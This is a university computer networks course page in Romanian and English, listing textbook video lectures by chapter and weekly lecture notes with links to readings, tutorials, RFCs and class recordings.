[4-1 Network Layer Overview](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-1_Network_Layer_Overview__/ph/streaming/esm/tanenbaum5e_videonotes/4_1_network_overview_cn5e.m4v "4-1 Network Layer Overview")  
[4-2 Network Services](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-2_Network_Services__/ph/streaming/esm/tanenbaum5e_videonotes/4_2_network_service_cn5e.m4v "4-2 Network Services")  
[4-3 Internetworking](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-3_Internetworking__/ph/streaming/esm/tanenbaum5e_videonotes/4_3_internetworking_cn5e.m4v "4-3 Internetworking")  
[4-4 IP Prefixes](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-4_IP_Prefixes__/ph/streaming/esm/tanenbaum5e_videonotes/4_4_ip_prefixes_cn5e.m4v "4-4 IP Prefixes")  
[4-5 IP Forwarding](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-5_IP_Forwarding__/ph/streaming/esm/tanenbaum5e_videonotes/4_5_ip_forwarding_cn5e.m4v "4-5 IP Forwarding")  
[4-6 Helping IP with ARP, DHCP](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-6_Helping_IP_with_ARP,_DHCP__/ph/streaming/esm/tanenbaum5e_videonotes/4_6_ip_helpers_cn5e.m4v "4-6 Helping IP with ARP, DHCP")  
[4-7 Packet Fragmentation](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-7_Packet_Fragmentation__/ph/streaming/esm/tanenbaum5e_videonotes/4_7_fragmentation_cn5e.m4v "4-7 Packet Fragmentation")  
[4-8 IP Errors with ICMP](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-8_IP_Errors_with_ICMP__/ph/streaming/esm/tanenbaum5e_videonotes/4_8_ip_errors_cn5e.m4v "4-8 IP Errors with ICMP")  
[4-9 IP Version 6](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-9_IP_Version_6__/ph/streaming/esm/tanenbaum5e_videonotes/4_9_ipv6_cn5e.m4v "4-9 IP Version 6")  
[4-10 Network Address Translation](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-10_Network_Address_Translation__/ph/streaming/esm/tanenbaum5e_videonotes/4_10_nat_cn5e.m4v "4-10 Network Address Translation")


<a name="routing"></a>
Routing [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=386)
-------

[5-1 Routing Overview](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-1_Routing_Overview__/ph/streaming/esm/tanenbaum5e_videonotes/5_1_routing_overview_cn5e.m4v "5-1 Routing Overview")  
[5-2 Shortest Path Routing](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-2_Shortest_Path_Routing__/ph/streaming/esm/tanenbaum5e_videonotes/5_2_shortest_path_cn5e.m4v "5-2 Shortest Path Routing")  
[5-3 Computing Shortest Paths with Dijkstra](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-3_Computing_Shortest_Paths_with_Dijkstra__/ph/streaming/esm/tanenbaum5e_videonotes/5_3_dijkstra_cn5e.m4v "5-3 Computing Shortest Paths with Dijkstra")  
[5-4 Distance Vector Routing](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-4_Distance_Vector_Routing__/ph/streaming/esm/tanenbaum5e_videonotes/5_4_distance_vector_cn5e.m4v "5-4 Distance Vector Routing")  
[5-5 Flooding](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-5_Flooding__/ph/streaming/esm/tanenbaum5e_videonotes/5_5_flooding_cn5e.m4v "5-5 Flooding")  
[5-6 Link State Routing](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-6_Link_State_Routing__/ph/streaming/esm/tanenbaum5e_videonotes/5_6_link_state_cn5e.m4v "5-6 Link State Routing")  
[5-7 Equal-Cost Multi-path Routing](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-7_Equal-Cost_Multi-path_Routing__/ph/streaming/esm/tanenbaum5e_videonotes/5_7_ecmp_cn5e.m4v "5-7 Equal-Cost Multi-path Routing")  
[5-8 Combining Hosts and Routers](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-8_Combining_Hosts_and_Routers__/ph/streaming/esm/tanenbaum5e_videonotes/5_8_hosts_router_cn5e.m4v "5-8 Combining Hosts and Routers")  
[5-9 Hierarchical Routing](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-9_Hierarchical_Routing__/ph/streaming/esm/tanenbaum5e_videonotes/5_9_hierarchical_cn5e.m4v "5-9 Hierarchical Routing")  
[5-10 IP Prefix Aggregation and Subnets](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-10_IP_Prefix_Aggregation_and_Subnets__/ph/streaming/esm/tanenbaum5e_videonotes/5_10_aggregation_cn5e.m4v "5-10 IP Prefix Aggregation and Subnets")  
[5-11 Routing with Multiple Parties](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-11_Routing_with_Multiple_Parties__/ph/streaming/esm/tanenbaum5e_videonotes/5_11_policy_cn5e.m4v "5-11 Routing with Multiple Parties")  
[5-12 Border Gateway Protocol BGP](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.5-12_Border_Gateway_Protocol_(BGP)__/ph/streaming/esm/tanenbaum5e_videonotes/5_12_bgp_cn5e.m4v "5-12 Border Gateway Protocol (BGP)")


<a name="datalink_a"></a> 
Link Layer, Part A [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=218)
------------------

[3a-1 Overview of the Link Layer](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3a-1_Overview_of_the_Link_Layer__/ph/streaming/esm/tanenbaum5e_videonotes/3a_1_link_overview_cn5e.m4v "3a-1 Overview of the Link Layer")  
[3a-2 Framing](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3a-2_Framing__/ph/streaming/esm/tanenbaum5e_videonotes/3a_2_framing_cn5e.m4v "3a-2 Framing")  
[3a-3 Error Coding Overview](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3a-3_Error_Coding_Overview__/ph/streaming/esm/tanenbaum5e_videonotes/3a_3_error_overview_cn5e.m4v "3a-3 Error Coding Overview")  
[3a-4 Error Detection](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3a-4_Error_Detection__/ph/streaming/esm/tanenbaum5e_videonotes/3a_4_error_detection_cn5e.m4v "3a-4 Error Detection")  
[3a-5 Error Correction](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3a-5_Error_Correction__/ph/streaming/esm/tanenbaum5e_videonotes/3a_5_error_correction_cn5e.m4v "3a-5 Error Correction")


<a name="datalink_b"></a> 
Link Layer, Part B [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=281)
------------------

[3b-1 Overview of the Link Layer](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3b-1_Overview_of_the_Link_Layer__/ph/streaming/esm/tanenbaum5e_videonotes/3b_1_link_overview_cn5e.m4v "3b-1 Overview of the Link Layer")  
[3b-2 Retransmissions](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3b-2_Retransmissions__/ph/streaming/esm/tanenbaum5e_videonotes/3b_2_arq_cn5e.m4v "3b-2 Retransmissions")  
[3b-3 Multiplexing](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3b-3_Multiplexing__/ph/streaming/esm/tanenbaum5e_videonotes/3b_3_multiplexing_cn5e.m4v "3b-3 Multiplexing")  
[3b-4 Random Multiple Access](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3b-4_Random_Multiple_Access__/ph/streaming/esm/tanenbaum5e_videonotes/3b_4_random_access_cn5e.m4v "3b-4 Random Multiple Access")  
[3b-5 Wireless Multiple Access](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3b-5_Wireless_Multiple_Access__/ph/streaming/esm/tanenbaum5e_videonotes/3b_5_wireless_access_cn5e.m4v "3b-5 Wireless Multiple Access")  
[3b-6 Contention-Free Multiple Access](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3b-6_Contention-Free_Multiple_Access__/ph/streaming/esm/tanenbaum5e_videonotes/3b_6_contention_free_cn5e.m4v "3b-6 Contention-Free Multiple Access")  
[3b-7 LAN Switches](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3b-7_LAN_Switches__/ph/streaming/esm/tanenbaum5e_videonotes/3b_7_switches_cn5e.m4v "3b-7 LAN Switches")  
[3b-8 Switch Spanning Tree](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.3b-8_Switch_Spanning_Tree__/ph/streaming/esm/tanenbaum5e_videonotes/3b_8_spanning_tree_cn5e.m4v "3b-8 Switch Spanning Tree")


<a name="nivel_fizic"></a> 
Physical Layer (optional) [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=113)
--------------

[2-1 Overview of the Physical Layer](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.2-1_Overview_of_the_Physical_Layer__/ph/streaming/esm/tanenbaum5e_videonotes/2_1_physical_overview_cn5e.m4v "2-1 Overview of the Physical Layer")  
[2-2 Media](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.2-2_Media__/ph/streaming/esm/tanenbaum5e_videonotes/2_2_media_cn5e.m4v "2-2 Media")  
[2-3 Signals](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.2-3_Signals__/ph/streaming/esm/tanenbaum5e_videonotes/2_3_signals_cn5e.m4v "2-3 Signals")  
[2-4 Modulation](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.2-4_Modulation__/ph/streaming/esm/tanenbaum5e_videonotes/2_4_modulation_cn5e.m4v "2-4 Modulation")  
[2-5 Fundamental Limits](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.2-5_Fundamental_Limits__/ph/streaming/esm/tanenbaum5e_videonotes/2_5_limits_cn5e.m4v "2-5 Fundamental Limits")


<a name="qos"></a>
Quality of Service [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=721)
------------------

[9-1 QOS Overview](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.9-1_QOS_Overview__/ph/streaming/esm/tanenbaum5e_videonotes/9_1_qos_overview_cn5e.m4v "9-1 QOS Overview")  
[9-2 Real-time Transport](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.9-2_Real-time_Transport__/ph/streaming/esm/tanenbaum5e_videonotes/9_2_real_time_cn5e.m4v "9-2 Real-time Transport")  
[9-3 Streaming Media](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.9-3_Streaming_Media__/ph/streaming/esm/tanenbaum5e_videonotes/9_3_streaming_media_cn5e.m4v "9-3 Streaming Media")  
[9-4 Fair Queuing](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.9-4_Fair_Queuing__/ph/streaming/esm/tanenbaum5e_videonotes/9_4_fair_queuing_cn5e.m4v "9-4 Fair Queuing")  
[9-5 Traffic Shaping](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.9-5_Traffic_Shaping__/ph/streaming/esm/tanenbaum5e_videonotes/9_5_traffic_shaping_cn5e.m4v "9-5 Traffic Shaping")  
[9-6 Differentiated Services](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.9-6_Differentiated_Services__/ph/streaming/esm/tanenbaum5e_videonotes/9_6_diffserv_cn5e.m4v "9-6 Differentiated Services")  
[9-7 Rate and Delay Guarantees](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.9-7_Rate_and_Delay_Guarantees__/ph/streaming/esm/tanenbaum5e_videonotes/9_7_ratedelay_cn5e.m4v "9-7 Rate and Delay Guarantees")

<a name="security"></a>
Network Security [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=787)
----------------

[10-1 Network Security Introduction](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-1_Network_Security_Introduction__/ph/streaming/esm/tanenbaum5e_videonotes/10_1_network_security_cn5e.m4v "10-1 Network Security Introduction")  
[10-2 Message Confidentiality](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-2_Message_Confidentiality__/ph/streaming/esm/tanenbaum5e_videonotes/10_2_confidentiality_cn5e.m4v "10-2 Message Confidentiality")  
[10-3 Message Authentication](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-3_Message_Authentication__/ph/streaming/esm/tanenbaum5e_videonotes/10_3_authentication_cn5e.m4v "10-3 Message Authentication")  
[10-4 Wireless Security](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-4_Wireless_Security__/ph/streaming/esm/tanenbaum5e_videonotes/10_4_wireless_security_cn5e.m4v "10-4 Wireless Security")  
[10-5 Web Security](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-5_Web_Security__/ph/streaming/esm/tanenbaum5e_videonotes/10_5_web_security_cn5e.m4v "10-5 Web Security")  
[10-6 DNS Security](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-6_DNS_Security__/ph/streaming/esm/tanenbaum5e_videonotes/10_6_dns_security_cn5e.m4v "10-6 DNS Security")  
[10-7 Firewalls](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-7_Firewalls__/ph/streaming/esm/tanenbaum5e_videonotes/10_7_firewalls_cn5e.m4v "10-7 Firewalls")  
[10-8 Virtual Private Networks (VPNs)](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-8_Virtual_Private_Networks_(VPNs)__/ph/streaming/esm/tanenbaum5e_videonotes/10_8_vpns_cn5e.m4v "10-8 Virtual Private Networks (VPNs)")  
[10-9 Distributed Denial of Service (DDOS)](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.10-9_Distributed_Denial_of_Service_(DDOS)__/ph/streaming/esm/tanenbaum5e_videonotes/10_9_ddos_cn5e.m4v "10-9 Distributed Denial of Service (DDOS)")


Curs 14 

Incheiere 

Las aici cateva materiale despre retele autonome, privacy, peer2peer, software alternativ 

PrivChat #4 - 25th Anniversary of Onion Routing 

 


https://git.autonomic.zone/coop-cloud 

https://datprotocol.github.io/how-dat-works/  

https://scuttlebutt.nz/ 

https://the-local-gossip-index.hashbase.io/ 

https://yunohost.org/#/ 

https://www.manyver.se/ 

https://en.wikipedia.org/wiki/PeerTube  

 

 

Curs 13 

Data Link Layer 

Videos:  https://github.com/senisioi/computer-networks/tree/2021/curs#datalink_a  

               https://github.com/senisioi/computer-networks/tree/2021/curs#datalink_b  

Introducere in ethernet: https://book.systemsapproach.org/direct/ethernet.html 

CRC: https://book.systemsapproach.org/direct/error.html#cyclic-redundancy-check 

Framing: https://book.systemsapproach.org/direct/framing.html 

Address Resolution Protocol: https://medium.com/@ismailakkila/black-hat-python-arp-cache-poisoning-with-scapy-7cb1d8b9d242  

Exemple de cod: https://github.com/senisioi/computer-networks/tree/2021/capitolul5  

 

 

Curs 12 

Network Layer (cont.) 

Recording: 

Videos: https://github.com/senisioi/computer-networks/tree/2021/curs#routing  

Recap: DV and LS Routing https://book.systemsapproach.org/internetworking/routing.html#link-state-ospf 

-- 

Inter-Domain vs. Intra-Domain: https://book.systemsapproach.org/scaling/global.html  

Autonomous Systems: https://www.cidr-report.org/as2.0/  

BGP Looking Glasses: https://www.bgp4.as/looking-glasses  

Tutorial: https://witestlab.poly.edu/blog/a-peek-into-internet-routing/  

 

 

 

Curs 11 

Network Layer (cont.) 

Recording: https://unibucro0.sharepoint.com/sites/Reteledecalculatoare2021/Shared%20Documents/Curs/Curs11/curs11.mp4  

Videos: https://github.com/senisioi/computer-networks/tree/2021/curs#routing  

Tutorial on subnets: https://witestlab.poly.edu/blog/designing-subnets/  

Basics on routing: https://book.systemsapproach.org/internetworking/routing.html  

Distance Vector Routing Example: https://en.wikipedia.org/wiki/Distance-vector_routing_protocol#Example  

Poison Reverse si Split Horizon: https://en.wikipedia.org/wiki/Split_horizon_route_advertisement  

RIP: https://tools.ietf.org/html/rfc1058  

Link State Routing Example: https://book.systemsapproach.org/internetworking/routing.html#link-state-ospf (mai multe data viitoare) 

  

 

Curs 10 

Network Layer (cont.) 

Videos: https://github.com/senisioi/computer-networks/tree/2021/curs#forwarding  

NAT: https://en.wikipedia.org/wiki/Network_address_translation#Methods_of_translation  

Reading: https://book.systemsapproach.org/internetworking/basic-ip.html#datagram-forwarding-in-ip   

Recording: https://unibucro0.sharepoint.com/sites/Reteledecalculatoare2021/Shared%20Documents/Curs/Curs10/curs10.mp4  

 

Curs 9 

Videos: https://github.com/senisioi/computer-networks/tree/2021/curs#forwarding  

Path MTU Discovery: https://en.wikipedia.org/wiki/Path_MTU_Discovery 

ICMP: http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-8_IP_Errors_with_ICMP__/ph/streaming/esm/tanenbaum5e_videonotes/4_8_ip_errors_cn5e.m4v  

Fragmentation: http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.4-7_Packet_Fragmentation__/ph/streaming/esm/tanenbaum5e_videonotes/4_7_fragmentation_cn5e.m4v  

Traceroute: https://www.slashroot.in/how-does-traceroute-work-and-examples-using-traceroute-command  

DSCP: https://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.9-6_Differentiated_Services__/ph/streaming/esm/tanenbaum5e_videonotes/9_6_diffserv_cn5e.m4v  

Recording: https://unibucro0.sharepoint.com/sites/Reteledecalculatoare2021/Shared%20Documents/Curs/Curs9/curs9.mp4  

 

Curs 8 

Transport / TCP /Congestion Control 

Tutorial: https://witestlab.poly.edu/blog/tcp-congestion-control-basics/  

Recording: https://unibucro0.sharepoint.com/sites/Reteledecalculatoare2021/Shared%20Documents/Curs/Curs8/curs8.mp4  

 

Curs 7 

Transport Layer TCP: 

Congestion Control: https://github.com/senisioi/computer-networks/tree/2021/curs#congestion 

TCP Reno in linux: https://github.com/torvalds/linux/blob/master/net/ipv4/tcp_cong.c 

TCP Reno explained: http://intronetworks.cs.luc.edu/1/html/reno.html 

Sliding window: http://intronetworks.cs.luc.edu/1/html/slidingwindows.html#bandwidth-delay  

Congestion control RFC: https://tools.ietf.org/html/rfc2581 

Demo: https://squidarth.com/demonstrating-congestion-control.html  

 

Curs 6 

Transport Layer TCP:  

Sliding window: https://www2.tkn.tu-berlin.de/teaching/rn/animations/gbn_sr/ 

TCP Selective Acks: https://packetlife.net/blog/2010/jun/17/tcp-selective-acknowledgments-sack/  

Selective ACK RFC: https://tools.ietf.org/html/rfc2018  

 

Curs 5 

Transport Layer TCP: https://github.com/senisioi/computer-networks/tree/2021/curs#trans 

Recording: https://unibucro0.sharepoint.com/sites/Reteledecalculatoare2021/Shared%20Documents/Curs/Curs5/curs5.mp4  

 

Curs 4 

Transport Layer, Intro UDP, TCP: https://github.com/senisioi/computer-networks/tree/2021/curs#trans 

Recording: https://unibucro0.sharepoint.com/sites/Reteledecalculatoare2021/Shared%20Documents/Curs/Curs4/curs4.mp4  

 

 

Curs 3 

Invitat: Gabriel Majeri, SSL/TLS criptarea mesajelor 

SSL/TLS: https://www.cloudflare.com/learning/ssl/what-happens-in-a-tls-handshake/  

Materiale despre securitate: https://github.com/senisioi/computer-networks/tree/2021/curs#security  

Recording: https://unibucro0.sharepoint.com/sites/Reteledecalculatoare2021/Shared%20Documents/Curs/Curs3/curs3.mp4 

 

 

Curs 2 

Materiale: https://github.com/senisioi/computer-networks/tree/2021/curs#web 

Note de curs: https://github.com/senisioi/computer-networks/tree/2021/capitolul2#dns  

Recording: https://unibucro0.sharepoint.com/sites/Reteledecalculatoare2021/Shared%20Documents/Curs/Curs2/  

 

 

Curs 1 

Evaluare:  

60% lab 

40% examen de curs 

 

Materiale: https://github.com/senisioi/computer-networks/ 

 

Puneti cat mai multe intrebari, va rog sa ma intrerupeti de cate ori nu intelegeti ceva sau daca vreti pauza. 

Mai mult legat de lab: activitatea poate sa conteze 

 

Materiale: https://github.com/senisioi/computer-networks/tree/2021/curs#intro 

Recording: https://teams.microsoft.com/_#/school/files/Curs?threadId=19%3Af16f8eaff3e74424926540192bb0e055%40thread.tacv2&ctx=channel&context=Curs1&rootfolder=%252Fsites%252FReteledecalculatoare2021%252FShared%2520Documents%252FCurs%252FCurs1  

 

 

 

 